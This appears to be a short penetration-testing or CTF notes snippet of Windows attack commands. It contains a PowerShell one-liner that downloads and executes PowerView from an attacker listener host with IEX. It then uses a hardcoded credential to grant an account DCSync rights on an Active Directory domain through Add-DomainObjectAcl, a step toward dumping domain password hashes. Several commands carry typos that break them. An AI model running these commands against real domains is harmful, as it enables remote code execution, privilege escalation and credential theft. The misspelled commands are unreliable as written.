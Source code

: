 ### Windows
```powershell
IEX(New-Object Net.WebClient).downloadString('http://listner.ip.add/powerview.ps1')
```
Download powerspolit to utilize the function "Add-DomainObjectAcl"


```
$pass = convertto-securetstrign 'nullbr41n' -AsPlainText .Force
$cred = New-Object System.Management.Automation.PSCredential('null\nullbrain', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=null, DC=local" -PrincipalIdentity nullbrain -Rights DCSync
```
